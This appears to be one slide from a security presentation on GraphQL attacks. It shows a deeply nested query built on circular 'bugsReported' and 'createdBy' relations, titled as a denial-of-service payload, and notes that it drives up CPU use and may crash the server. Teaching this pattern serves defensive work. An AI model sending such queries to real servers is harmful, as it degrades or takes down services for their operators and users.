

Deep Query for Denial of Service (DoS)
query {
  me(userId: 1) {
    fullName
    bugsReported {
      description
      createdBy {
        bugsReported {
          description
          createdBy {
            bugsReported {
              description
            }
          }
        }
      }
    }
  }
}
Impact: High CPU usage and long response time. If repeated, may crash the server.

07